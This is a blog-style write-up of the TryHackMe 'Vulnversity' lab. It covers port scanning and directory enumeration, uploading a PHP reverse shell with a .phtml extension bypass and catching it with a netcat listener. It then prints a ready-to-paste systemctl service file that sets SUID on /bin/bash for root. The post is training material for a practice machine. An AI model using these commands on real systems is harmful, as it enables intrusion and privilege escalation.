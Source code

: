 ```yaml
---
title: Tryhackme Vulnversity Ctf Writeup
author: krygennn
date: 2021-10-9 18:04
categories: [Blogging,cyber-security]
image:
    src: /assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln1.jpg
    alt: TRYHACKME BLUE
tags: [ctf,pentesting,linux-privesc,bruteforce,cracking,reverse-shell,php,shell-injection]
---
```

[**Solve Yourself >>**](https://www.tryhackme.com/room/vulnversity)

# TRYHACKME VULNVERSITY - CTF WRITEUP 
Vulnversity is a machine that combines reconnaissance, web attack vectors and privilege escalation methods together.
<br>
<br>
## 1-Enumeration
<br>
Let's start with enumerating the host.I will use Network Mapper (`nmap`) tool in order to scan and probe opened ports and active services to find my attack vector. 

| Parameter  | Functionality                                      |
|:-----------|:---------------------------------------------------|
|-sS         |SYN Stealth Scan (Half TCP Connect scan)            |
|-sV         |Probe open ports to determine service/version info  |
|-O          |Enable OS detection.                                |
|-T4         |T{0-5} Set scan speed, higher is faster.            |
|-p-         |Scan all 65536 ports.                               |
|-oN         |Outputfile                                          |


Full command: `nmap {machine IP} -sV -sS -O -T4 -p- -oN vulnversity.nmap`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln2.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see from the results, we have got six different ports active to create our attack vector.If you do your research and investigate whether one of these services have any vulnerabilities or not, you will return to your home empty handed.You can try anonymous login to FTP protocol, or try to make a SSH connection but you would fail just like I did.None of these services have any vulnerabilities that would put us in the target system.
 
Other than that **"3333/tcp open  http   Apache httpd 2.4.18 ((Ubuntu))"** catches the eye, so lets start to investigate the webpage that the host is running on its port 3333.

![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln3.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Fire up your browser and type **{machine IP}:3333** to your address bar.You will see the webpage shown above.Nothing suspicious there, so lets start to extract the directories with the help of the `gobuster` tool.

| Parameter     | Functionality                                      |
|:--------------|:---------------------------------------------------|
|dir -u         |URL and the port where web server is running        |
|-w             |Wordlist that contains possible directory names     |

Full command: `gobuster dir -u http://{MachineIP}:3333 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`

[**Seclist's Wordlist Pack >>**](https://github.com/danielmiessler/SecLists)
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln4.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Let's go for `http://[IP]:3333/internal`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln5.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
It seems like we've find our playground :) Website have got an upload functionality.
<br>
<br>
## 2-Exploitation
<br>
First thing came into my mind was to upload a php reverse shell, so let's try it out.

[**PHP Reverse Shell Script >>**](https://www.tryhackme.com/room/vulnversity)
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln6.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Download the script by using **curl**.However in order to make it work, we need to make some configurations in the script to make it work.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln7.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Change **$ip** to your own machines ip (tryhackme's vpn tunnel) ,define the port as any random **$port**.I've changed it to the 8888 while it was 1234 by default.

 Configurations are all done ! Now, it is time for us to upload the reverse shell to the web server.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln8.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
**Note**:My machine shutted it down while creating this post, so I had to restart it. That is why the ip have changed, don't worry :)

It seems like .php extension is not allowed.However ,php extension is not the only extension that we can use, we have got couple more.You can try all of them manually, but come on, let's write a python script :)) 
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln9.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
[**Download the php bruter script >>**](https://www.tryhackme.com/room/vulnversity)
Run it.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln10.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
**.phtml** is the working extension. Rename the payload, **php_reverse_shell.php** into **php_reverse_shell.phtml**, and than upload it.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln11.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Now we have successfully injected our reverse shell script.However we also need to listen incoming connections from the server.Therefore we will use Netcat (**nc**) to listen to the port 8888, which we set in the script before.

|Parameter | Functionality                                     |
|:---------|:--------------------------------------------------|
|-n        | Do not resolve hostnames via DNS                  |
|-l        | Bind and listen for incoming connections          |
|-v        | Set verbosity level (can be used several times)   |
|-p        | Specify source port to use                        |

Full command: `nc -nvlp 8888`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln12.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
While listening to port 8888, we need to activate the script that we just uploaded.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln13.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Visit this URL >> `http://{machineIP}:3333/internals/uploads`, and than click to the reverse php 
shell script that you have uploaded. 
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln14.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Excellent, we are in !
<br>
<br>
## Flag Capturing and Privilege Eseclation
<br>
Nevertheless, this shell is not stable righ now, we need to spawn a python shell.
<br>Run `python -c 'import pty;pty.spawn("/bin/bash")'`, and also `export TERM=xterm`.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln15.jpg){: .shadow style="max-width: 80%" .normal} 
<br>

#### 1-User Flag
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln16.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
In order to get root flag, we have to escalate our privileges, let's search for SUID binaries.If you are not familiar with SUID executables, I recommend you to make your research, than come back, but basically, when you executing a SUID file, you are executing it with it's owner's permissions.We will use **find** command to scan for those binaries.

| Parameter              | Functionality                                          |
|:-----------------------|:-------------------------------------------------------|
| /                      | Search from the root directory                         |
|-type f                 | Only search for files                                  |
|-user root              | Only find the files owned by root                      |
|-perm -u=s              | Only find the files with SUID bit set                  |
|2>/dev/null             | Redirect all stderr outputs to device null             |

Full command: `find -type f -user root -perm -u=s 2>/dev/null`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln17.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Some of those binaries have set uid bit by default, however **/bin/systemctl** should not have that SUID permission by default,so let's search how we can exploit that.
[**GTFOBins >>**](https://gtfobins.github.io/)
GTFOBins is a github project, and it is curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.Click the link given above and search fore **systemctl**.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln18.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
t seems like one way to exploit that SUID set systemctl is creating a temporary service.Since systemctl's burden is coordinate the services, it makes sense.However we will need to configure that service file.
#### Service file
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
I have manually changed the systemctl location in the given code from relative to static directory,and also ExecStart will set SUID perm to /bin/bash.

Copy and paste the lines given above to shell (Press enter two times after you paste it), and than check the /bin/bash's file permissions.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln19.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see, /bin/bash binary now have 's' permission, which indicates that it is a SUID executable.
Run `bash -p` and you are good to go.
#### 2-Root Flag
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln20.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see euid (Effective user id) set to 0 which belongs to root.Now you can get the root flag.

That is all for this machine, thank you for reading :)

